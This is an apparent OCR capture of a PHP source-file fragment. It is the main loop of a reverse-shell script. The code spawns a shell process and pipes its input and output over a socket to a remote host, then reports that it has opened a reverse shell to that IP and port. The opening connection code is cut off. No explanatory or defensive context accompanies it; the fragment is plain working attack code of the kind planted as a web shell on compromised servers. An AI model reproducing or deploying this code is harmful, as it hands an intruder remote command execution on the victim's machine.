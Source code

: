 ```php
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

